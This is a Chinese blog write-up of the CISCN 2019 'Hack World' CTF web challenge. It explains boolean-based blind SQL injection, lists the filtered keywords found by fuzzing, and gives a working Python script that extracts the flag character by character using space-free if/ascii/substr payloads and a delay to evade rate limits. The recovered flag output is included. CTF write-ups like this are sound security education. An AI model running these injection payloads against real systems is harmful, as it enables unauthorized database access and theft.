 ```yaml
---
title: buuoj刷题记录3
date: 2019-12-27 12:42:41
tags:
 - ciscn
 - web
 - ctf
 - buuctf
categories: 
 - 刷题记录
---
```


## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 0x00 基础

SQL盲注，使用`if(表达式1，表达式2，表达式3)、ascii(char)、substr（str,pos,len）`函数一个一个的猜字符，过滤绕过，空格可以使用`+、\t、/**/、()`绕过。
```
if(表达式1，表达式2，表达式3)  如果表达式1的值为真，取表达式二的值，否者取表达式三的值
ascii(char)
substr（str,pos,len)
```
<!--more-->

### 0x01 分析

题目提示

```
flag{} 里为 uuid
```

访问页面

![](../pic/3.jpg)



使用burp suite进行sql fuzz测试，以下字符被过滤

|       %20        | 482  | SQL Injection Checked |
| :--------------: | ---- | --------------------- |
|       AND        | 482  | SQL Injection Checked |
|      DELETE      | 482  | SQL Injection Checked |
|     END-EXEC     | 482  | SQL Injection Checked |
|      GROUP       | 482  | SQL Injection Checked |
|      INSERT      | 482  | SQL Injection Checked |
|       INTO       | 482  | SQL Injection Checked |
|      LIMIT       | 482  | SQL Injection Checked |
|        OR        | 482  | SQL Injection Checked |
|      UNION       | 482  | SQL Injection Checked |
|      UPDATE      | 482  | SQL Injection Checked |
|        +         | 482  | SQL Injection Checked |
|        /         | 482  | SQL Injection Checked |
|        -         | 482  | SQL Injection Checked |
|        *         | 482  | SQL Injection Checked |
|        `         | 482  | SQL Injection Checked |
|        "         | 482  | SQL Injection Checked |
|       \|\|       | 482  | SQL Injection Checked |
|        &&        | 482  | SQL Injection Checked |
|       %23        | 482  | SQL Injection Checked |
|;|482|SQL Injection Checked |
`if,substr,ascii,<,>,=,(),/t`都没有被过滤，可以使用盲注,编写脚本，空格被过滤使用`/t、( )代替`

### 0x02 开始操作

```pytho
# -*- coding: utf-8 -*-
# @Time    : 12/27/2019 6:11 PM
import requests
import time

url = "http://97d580f3-633c-469e-826c-3e251279ebba.node3.buuoj.cn/index.php"
result = ''

for x in range(1, 43):
    high = 126
    low = 45
    mid = (low + high) // 2


    while high - low > 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id": payload
        }
        time.sleep(0.3)
        res = requests.post(url, data = data)
        if 'Hello' in res.text:
            low = mid
        else:
            high = mid
        mid = (low + high) // 2

    if high - low == 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))=%d,1,2)" % (x, high)
        data = {
            "id": payload
        }
        response = requests.post(url, data=data)
        if 'Hello' in response.text:
            result += chr(int(mid+1))
        else :
            result += chr(int(mid))
    else :
        result += chr(int(mid))
    print(result)
```

```
f
fl
fla
flag
flag{
flag{a
flag{a2
flag{a22
flag{a22c
flag{a22cf
flag{a22cf6
flag{a22cf69
flag{a22cf690
flag{a22cf690-
flag{a22cf690-3
flag{a22cf690-34
flag{a22cf690-342
flag{a22cf690-342a
flag{a22cf690-342a-
flag{a22cf690-342a-4
flag{a22cf690-342a-4b
flag{a22cf690-342a-4bf
flag{a22cf690-342a-4bf4
flag{a22cf690-342a-4bf4-
flag{a22cf690-342a-4bf4-8
flag{a22cf690-342a-4bf4-88
flag{a22cf690-342a-4bf4-885
flag{a22cf690-342a-4bf4-885b
flag{a22cf690-342a-4bf4-885b-
flag{a22cf690-342a-4bf4-885b-d
flag{a22cf690-342a-4bf4-885b-df
flag{a22cf690-342a-4bf4-885b-df3
flag{a22cf690-342a-4bf4-885b-df33
flag{a22cf690-342a-4bf4-885b-df332
flag{a22cf690-342a-4bf4-885b-df332d
flag{a22cf690-342a-4bf4-885b-df332d4
flag{a22cf690-342a-4bf4-885b-df332d44
flag{a22cf690-342a-4bf4-885b-df332d446
flag{a22cf690-342a-4bf4-885b-df332d4469
flag{a22cf690-342a-4bf4-885b-df332d44698
flag{a22cf690-342a-4bf4-885b-df332d44698d
flag{a22cf690-342a-4bf4-885b-df332d44698d}
```

因为平台有访问频率限制，导致之前很多次都不成功，加入时间模块稍微延迟一下即可。



